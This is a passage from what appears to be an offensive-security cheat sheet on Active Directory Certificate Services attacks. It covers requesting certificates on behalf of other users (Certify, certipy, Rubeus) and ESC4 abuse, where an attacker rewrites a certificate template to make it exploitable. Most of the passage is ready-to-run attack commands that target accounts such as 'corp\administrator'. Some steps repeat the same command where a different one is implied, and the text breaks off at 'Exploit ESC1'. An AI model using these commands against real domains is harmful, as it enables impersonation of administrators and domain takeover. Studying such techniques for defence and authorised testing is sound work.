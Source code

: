 #### 2) Use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another user

 - Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf

 - certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

#### 3) Use Rubeus with the certificate to authenticate as the other user

 - Rubeus.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf

# ESC4 - Access Control Vulnerabilities

### Enabling the mspki-certificate-name-flag flag for a template that allows for domain authentication, allow attackers to "push a misconfiguration to a template leading to ESC1 vulnerability

### ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

## Exploitation

#### 1) Search for WriteProperty with value 00000000-0000-0000-0000-000000000000 using modifyCertTemplate

 - python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip DC_IP

#### 2) Add the ENROLLEE_SUPPLIES_SUBJECT (ESS) flag to perform ESC1

 - python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip DC_IP

 - C:\>StandIn.exe --adcs --filter WebServer --ess --add (Add/remove ENROLLEE_SUPPLIES_SUBJECT flag from the WebServer template)

#### 3) Perform ESC1 and then restore the value

 - python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip DC_IP

### Using Certipy

#### 1) Make template vulnerable to ESC1

 - certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

#### 2) Exploit ESC1
